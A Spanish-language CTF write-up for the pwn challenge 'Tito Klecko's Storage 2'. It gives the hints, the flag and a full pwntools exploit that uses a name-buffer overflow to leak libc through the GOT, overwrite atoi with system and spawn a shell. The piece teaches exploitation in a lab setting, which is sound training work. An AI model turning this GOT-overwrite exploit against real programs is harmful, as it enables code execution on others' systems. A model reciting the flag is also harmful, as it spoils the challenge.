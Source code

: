 # Tito Klecko's Storage 2
- **Categoría:** Pwn
- **Dificultad:** ★★★★☆
- **Autor:** [Klecko](https://twitter.com/klecko0)

### Descripción
¡Bienvenido al almacén del tito Klecko!
¿Tú otra vez? Tranquilo, esta vez no hay flag guardada… ¡para ti!

Nota: el uso de la librería de python [pwntools](https://github.com/Gallopsled/pwntools/) para [interactuar](http://docs.pwntools.com/en/latest/intro.html#making-connections) con el proceso o con el servidor remo-to está altamente recomendado.

### Hints
1. El buffer overflow te permite crear items falsos en memoria. 
2. Necesitas aprender sobre la Global Offset Table (GOT). [Este](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) puede ser un buen recurso.
3. La GOT te puede ayudar a obtener un leak de la libc y vencer así ASLR.


### Hints
1. ¿No habrá alguna manera de modificar el tipo de un item para que sea de tipo *ITEM_WIN*?
2. ¡Buffer overflow al modificar el nombre!
3. Puedes sobreescribir el primer item.

### Flag
``CTFUni{m4st3r_0f_pwn!!!11}``  
<br>

## Writeup
En esta nueva versión del reto se ha eliminado el tipo ITEM_WIN, pero sigue habiendo un overflow del nombre en los items. Esto permite que un atacante cree items arbitrarios. Creando un item de tipo string con un puntero arbitrario podemos leer y modificar dicho puntero.  

El exploit crea un item de tipo string, poniendo el puntero a una entrada de la Global Offset Table (GOT), y lo imprime para obtener un leak de la libc. A continuación, modifica dicho item con la dirección de la función `system`.  

Ya que la entrada de la GOT que estamos modificando es la de la función `atoi`, ahora cuando se llame a `atoi(input)` se llamará a `system(input)`. Por tanto, enviar de entrada `/bin/sh` ejecuta una shell.

El exploit hace uso de pwntools para interactuar con el proceso en local o con el socket en remoto, y para calcular automáticamente los offsets con el uso de objetos ELF. Es posible hacerlo sin objetos ELF, hardcodeando los offsets de la libc necesarios para el cálculo de la dirección de `system` a partir del leak. También se puede hacer sin pwntools usando directamente sockets, pero es más engorroso.

Requiere conocimientos de la GOT para redirigir el flujo de ejecución del programa. También requiere conocimientos de scripting: interactuar con un proceso o un socket, conversiones de número a bytes en little endian y viceversa.

```python
#!/usr/bin/env python3
from pwn import *

REMOTE = True
elf = ELF("./items2") # this must be run from the same folder as the binary
libc = ELF("./libc.so.6")
context.binary = elf
context.terminal = ["x-terminal-emulator", "-e"]

if REMOTE:
	p = remote("localhost", 7002)
else:
	p = process(elf.path)
	# attach(p, "continue")

p.sendlineafter(b"name:", b"klecko")

# change name, overflow and create a string with pointer to a GOT entry
p.sendlineafter(b"> ", b"4")
payload = b"A"*32 + p64(2) + p64(elf.got.atoi)
p.sendlineafter(b"name:", payload)

# print contents of GOT entry and get leak
p.sendlineafter(b"> ", b"3")
p.sendlineafter(b"Index:", b"0")
p.recvuntil(b"Data: ")
leak = p.recvline()[:-1]
print(hexdump(leak))
atoi = u64(leak + b"\x00"*2)
libc.address = atoi - libc.symbols.atoi
print(hex(libc.address))

# overwrite contents of GOT with system
p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"Index:", b"0")
p.sendlineafter(b"String:", p64(libc.symbols.system))

# now atoi(input) will actually call system(input).
# trigger shell sending /bin/sh
p.sendlineafter(b"> ", b"/bin/sh")

p.interactive()
```

<br>

